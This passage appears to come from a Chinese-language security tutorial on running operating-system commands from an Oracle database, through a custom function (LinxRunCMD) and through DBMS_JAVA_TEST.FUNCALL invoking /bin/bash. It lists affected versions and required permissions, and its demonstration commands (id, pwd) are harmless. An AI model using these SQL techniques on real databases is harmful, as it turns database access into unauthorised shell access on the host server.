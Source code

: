 **若想删除创建的函数，通过以下命令删除**

```
drop function LinxRunCMD
```

**执行命令**

```
select LinxRunCMD('id') from dual
```

![dc69b6f46fbe234c05508b315e072532](assets/dc69b6f46fbe234c05508b315e072532.png)

**dbms_java_test.funcall()**

```
•影响版本：10g R2, 11g R1, 11g R2

•权限：Java Permissions
```

```
Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','pwd > /tmp/pwd.txt') from dual;
```

执行时报如下错

![1db33a6da462210c1b0b4fddc1d6c452](assets/1db33a6da462210c1b0b4fddc1d6c452.png)

但不影响命令的执行

![a87435987b46285ef131698f7834623b](assets/a87435987b46285ef131698f7834623b.png)
